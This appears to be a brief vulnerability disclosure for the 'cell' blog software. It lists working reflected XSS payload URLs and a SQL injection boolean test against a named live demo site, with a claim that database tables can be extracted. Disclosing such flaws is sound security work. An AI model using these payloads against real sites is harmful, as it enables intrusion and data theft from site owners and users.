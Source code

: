 ### cell  SQLi/XSS[2]

Well, when I pentest the official demo site of cell blog, I found some vulnerabilities here.

#### XSS:

There're some reflect-xss in this system, for example:


##### XSS1

```
http://www.cells.tw/pub_readpost.php?dirpages=1&bgid=1&fmid=2%27%22%3E%3Csvg/onload=alert(/xss/)%3E%3C%27%22&ptid=23
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/cell/xss1.png)

##### XSS2

```
http://www.cells.tw/fotos/?act=showpic&jfdname=..%2Fdata%2Fjpg%2Ftest%22%3E%3Csvg/onload=alert(/xss2/)%3E%3C%27%22&rjfdname=..%2Fdata%2Fjpg%2Ftest%27
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/cell/xss2.png)



#### SQLi:


```
http://www.cells.tw/pub_readpost.php?dirpages=1&bgid=1&fmid=2&ptid=23
```

Weak get key para "ptid":

```
dirpages=1&bgid=1&fmid=2&ptid=23 AND 2623=2623
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/sqli.png)


You can see,  we can obtain the current database tables or more sensitive data now!




